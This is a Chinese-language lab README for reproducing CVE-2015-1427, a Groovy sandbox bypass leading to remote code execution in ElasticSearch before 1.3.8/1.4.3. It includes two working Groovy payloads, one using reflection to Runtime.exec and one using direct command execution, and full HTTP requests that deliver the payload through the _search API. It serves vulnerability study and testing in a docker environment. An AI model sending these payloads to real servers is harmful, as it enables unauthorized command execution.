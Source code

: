 # ElasticSearch Groovy 沙盒绕过与远程代码执行漏洞（CVE-2015-1427）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

在ElasticSearch 1.3.8和1.4.3之前的版本中，Groovy脚本引擎存在一个漏洞，攻击者可以绕过沙盒保护并在服务器上执行任意代码。

在修复[CVE-2014-3120](../CVE-2014-3120/)漏洞后，ElasticSearch将默认的动态脚本语言更改为Groovy，并增加了沙盒保护。但是，动态语言执行功能仍然默认启用。本漏洞包含两个方面：

1. 沙盒绕过
2. Groovy代码执行漏洞

ElasticSearch支持使用"沙盒化"的Groovy语言作为动态脚本引擎。然而，沙盒的实现并不完善。研究人员发现了两种执行命令的方法：

1. Lupin的方法：使用Java反射绕过沙盒
2. Tang3的方法：直接使用Groovy语言特性执行命令，无需使用Java

基于这两种方法，我们有两个不同的POC。

Java沙盒绕过方法：

```groovy
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Groovy直接命令执行方法：

```groovy
def command='id';def res=command.execute().text;res
```

参考链接：

- <http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/>
- <https://github.com/XiphosResearch/exploits>
- <http://cb.drops.wiki/drops/papers-5107.html>
- <http://cb.drops.wiki/drops/papers-5142.html>

## 漏洞环境

执行以下命令启动一个1.4.2版本的ElasticSearch服务器：

```
docker compose up -d
```

环境启动后，可以通过`http://your-ip:9200`访问ElasticSearch API。

## 漏洞复现

由于查询时需要索引中至少有一条数据，首先发送以下请求添加数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的请求来执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

命令执行结果将在响应中返回：

![](1.png)
